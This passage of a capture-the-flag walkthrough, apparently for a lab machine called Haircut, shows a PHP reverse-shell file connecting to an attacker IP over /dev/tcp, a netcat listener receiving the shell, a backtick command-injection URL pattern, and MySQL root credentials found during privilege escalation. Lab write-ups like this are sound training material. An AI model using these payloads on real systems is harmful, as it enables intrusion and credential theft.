 ![Untitled](Haircut%2074f35b16aa6e4aeeb4863877bb5be4e1/Untitled.png)

We can execute php code and shell commands so we should be able to have a shell.

```bash
┌──(kali㉿kali)-[~/machines/linux/haircut]
└─$ cat rev.php 
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"'); ?>
```

Uploading this file and accessing it allow us to get a shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.24] 43868
bash: cannot set terminal process group (1220): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haircut:~/html/uploads$ whoami
whoami
www-data
```

### Command injection

To inject a command we can use the following paylaod

- `http://localhost/`<command>``

# Privilege escalation

### Strange file in maria home directory

```bash
www-data@haircut:/home/maria/.tasks$ cat task1 
#!/usr/bin/php
<?php
$mysql_id = mysql_connect('127.0.0.1', 'root', 'passIsNotThis');
mysql_select_db('taskmanager', $mysql_id);
?>
```

Inside the MYSQL we cannot see the database with name **taskmanager**.

```bash
www-data@haircut:/home/maria/.tasks$ mysql -uroot -ppassIsNotThis -h127.0.0.1
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.7.18-0ubuntu0.16.04.1 (Ubuntu)

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
```